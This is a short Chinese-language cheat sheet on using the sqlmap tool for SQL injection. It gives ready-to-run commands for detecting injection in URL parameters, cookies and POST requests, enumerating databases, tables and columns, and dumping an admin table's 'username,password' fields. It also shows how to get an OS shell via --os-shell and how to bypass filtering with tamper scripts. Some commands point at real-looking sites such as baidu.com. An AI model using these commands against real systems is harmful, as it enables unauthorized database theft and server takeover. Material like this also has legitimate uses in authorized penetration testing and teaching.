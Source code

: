 ```yaml
---
title: sqlmap使用
date: 2018-06-08 09:45:39
tags:
---
```


# sqlmap使用手册

sqlmap一共5个级别，级别越高，检测越全面

1. 检测

   默认使用level1，检测全部数据库类型

   >  sqlmap -u “http://www.vuln.cn/post.php?id=1”

2. 只检测mysql

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3

3. 检测cookie(（只有level达到2才会检测cookie）)

   >  sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2

4. post注入

   request.txt: 首先需要抓包，然后将数据包保存到requests.txt

   > sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql    
   >
   > 指定username参数

   或者:

   > python sqlmap.py -u "http://www.target.com/vuln.php" --data="id=1" -f --dbs

5. 查询有哪些数据库

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql -–level 3 –-dbs

6. 查询有哪些表(以test数据库为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql –-level 3 -D test -–tables

7. 查询字段(以test数据库下的admin表为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql –-level 3 -D test -T admin –-columns

8. 查询数据(以test数据库下的admin表为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  -–dbms mysql –-level 3 -D test -T admin -C “username,password” –-dump

9. 使用shell命令

   > sqlmap -r “c:\tools\request.txt” -p id –-dbms mysql –-os-shell

10. 使用tamper

    >  sqlmap.py -u http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3 --tamper unmagicquotes --dbs --hex

11. 保存进度

    > sqlmap -u “http://url/news?id=1“ –-dbs-o “sqlmap.log” 保存进度
    >
    > sqlmap -u “http://url/news?id=1“ -–dbs-o “sqlmap.log” –resume 恢复已保存进度

    